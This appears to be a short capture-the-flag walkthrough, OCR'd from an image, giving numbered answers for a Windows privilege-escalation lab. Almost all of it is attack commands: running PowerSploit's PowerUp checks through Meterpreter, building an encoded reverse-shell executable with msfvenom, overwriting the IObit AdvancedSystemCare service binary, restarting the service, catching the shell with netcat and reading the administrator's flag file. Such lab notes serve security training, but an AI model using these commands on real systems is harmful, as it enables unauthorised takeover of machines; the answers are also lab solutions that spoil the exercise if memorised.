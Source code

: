 1) 
- git clone https://github.com/PowerShellMafia/PowerSploit.git
- upload /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1
- load powershell
- powershell_shell
- . .\PowerUp.ps1
- Invoke-AllChecks
2) AdvancedSystemCareService9
3)
-  msfvenom -p windows/shell_reverse_tcp LHOST=10.11.13.209 LPORT=1234 -e x86/shikata_ga_nai -f exe -o ASCService.exe
- cd /Program\ Files\ (x86)\IObit\
- upload ASCService.exe
- copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
- shell
- sc stop  AdvancedSystemCareService9 
- sc start  AdvancedSystemCareService9 
- in a new tab, nc -lvnp 1234
- type /Users/Administrator/Desktop/root.txt